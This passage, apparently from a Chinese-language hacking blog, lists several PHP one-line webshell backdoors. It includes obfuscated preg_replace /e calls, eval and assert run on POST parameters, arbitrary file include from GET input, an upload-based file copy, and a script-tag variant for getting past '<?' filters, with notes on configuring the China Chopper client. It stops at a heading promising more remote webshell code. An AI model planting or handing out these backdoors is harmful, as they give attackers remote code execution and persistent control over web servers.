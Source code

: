 最后列几个高级的 PHP 一句话木马后门
--------------------

```
1、
$hh = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
$hh("/[discuz]/e",$_POST['h'],"Access");
//菜刀一句话
2、
$filename=$_GET['xbid'];
include ($filename);
//危险的include函数，直接编译任何文件为php格式运行
3、
$reg="c"."o"."p"."y";
$reg($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);
//重命名任何文件
4、
$gzid = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
$gzid("/[discuz]/e",$_POST['h'],"Access");
//菜刀一句话
5、include ($uid);
//危险的include函数，直接编译任何文件为php格式运行，POST www.xxx.com/index.php?uid=/home/www/bbs/image.gif
//gif插一句话
6、典型一句话
程序后门代码
<?php eval_r($_POST[sb])?>
程序代码
<?php @eval_r($_POST[sb])?>
//容错代码
程序代码
<?php assert($_POST[sb]);?>
//使用lanker一句话客户端的专家模式执行相关的php语句
程序代码
<?$_POST['sa']($_POST['sb']);?>
程序代码
<?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
程序代码
<?php
@preg_replace("/[email]/e",$_POST['h'],"error");
?>
//使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入
程序代码
<O>h=@eval_r($_POST[c]);</O>
程序代码
<script language="php">@eval_r($_POST[sb])</script>
//绕过<?限制的一句话
```

一款萎缩的动态生成远端大马后门
---------------

Webshell 代码如下：
